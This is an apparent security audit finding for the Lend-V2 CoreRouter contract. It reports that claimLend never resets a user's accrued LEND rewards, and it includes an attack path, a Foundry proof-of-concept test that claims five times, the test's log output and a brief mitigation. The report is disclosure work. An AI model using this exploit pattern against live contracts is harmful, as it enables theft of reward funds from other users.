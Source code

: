 Muscular Eggshell Pike

High

# Attacker can drain all LEND rewards with `claimLend`.

### Summary

In the CoreRouter.claimLend function, after a user claims their accrued LEND rewards, the user's accrual state (lendAccrued[user]) is not reset or updated in storage. This means that the same accrued amount remains available for an attacker to claim again and again, draining the rewards of all other suppliers/borrowers.

### Root Cause

In `CoreRouter::grantLendInternal`, on line 416, the `lendAccrued` state for a user is not updated after Lend is claimed.

[Link to code](https://github.com/sherlock-audit/2025-05-lend-audit-contest/blob/main/Lend-V2/src/LayerZero/CoreRouter.sol#L416) 

### Internal Pre-conditions

1. Users need to call `supply` and/or `borrow` in `CoreRouter` to generate Lend rewards

### External Pre-conditions

1. Time needs to pass for users accrual amount to increase

### Attack Path

1. Attacker calls `supply` with token
2. Wait for Lend to accrue after deposit
3. Check Accrued Lend
4. Claim Lend Rewards
5. Because the accrual state is not reset after claiming, the same amount of Lend can be claimed again until drained

### Impact

The attack works because the user's accrued LEND is not reset to zero after claiming. This allows the user to claim the same rewards repeatedly, draining the protocol's LEND balance, even if the attacker has a small amount to claim.

### PoC

Paste the following test case in `TestLendAccrual.t.sol` and run `forge test --mt test_claimed_lend_does_not_reset_accrual_state -vv`

```solidity
function test_claimed_lend_does_not_reset_accrual_state() public {
        // Supply tokens with two users
        uint256 supplyAmount = 1000e18;
        address[] memory users = new address[](10);

        (, address lToken) = _supply(supplyAmount, user1);

        // 9 more users supply the same amount
        for (uint256 i = 0; i < 9; i++) {
            users[i] = makeAddr(string(abi.encodePacked("user", vm.toString(i))));
            vm.deal(users[i], 1000 ether);
            (, address lTokenAddr) = _supply(supplyAmount, users[i]);
            // Save lToken address for later use (all users use same lToken)
            if (i == 0) {
                lToken = lTokenAddr;
            }
        }
        
        // Advance time
        vm.warp(block.timestamp + 1 days);
        vm.roll(block.number + 1000);

        // Get initial LEND token balance
        address lendToken = lendtroller.getLendAddress();

        uint256 initialBalance = IERC20(lendToken).balanceOf(user1);
        console2.log("initialBalance: ", initialBalance);

        // Record accrued LEND before claiming
        vm.prank(user1);
        address[] memory holders = new address[](1);
        holders[0] = user1;
        LToken[] memory lTokenArray = new LToken[](1);
        lTokenArray[0] = LToken(lToken);

        uint256 lendAccrualBefore = lendStorage.lendAccrued(user1);
        console2.log("lendAccrualBefore: ", lendAccrualBefore);

        // Single holder can claim all LEND as many times as needed to drain rewards
        for (uint i = 0; i < 5; i++) {
            coreRouter.claimLend(holders, lTokenArray, false, true);
        }

        uint256 lendAccrued = lendStorage.lendAccrued(user1);
        console2.log("lendAccrued: ", lendAccrued);


        uint256 finalBalance = IERC20(lendToken).balanceOf(user1);
        console2.log("finalBalance claimed: ", finalBalance);

        // Verify claimed amount matches accrued amount
        assertEq(finalBalance, lendAccrued * 5, "Claimed LEND is 5 times greater than accrued amount");
    }
```

Log output:
```bash
Ran 1 test for test/mocks/TestLendAccrual.t.sol:TestLendAccrual
[PASS] test_claimed_lend_does_not_reset_accrual_state() (gas: 2566515)
Logs:
  initialBalance:  0
  lendAccrualBefore:  0
  lendAccrued:  20000000000000000
  finalBalance claimed:  100000000000000000
```

### Mitigation

Update accrual state after user claims rewards.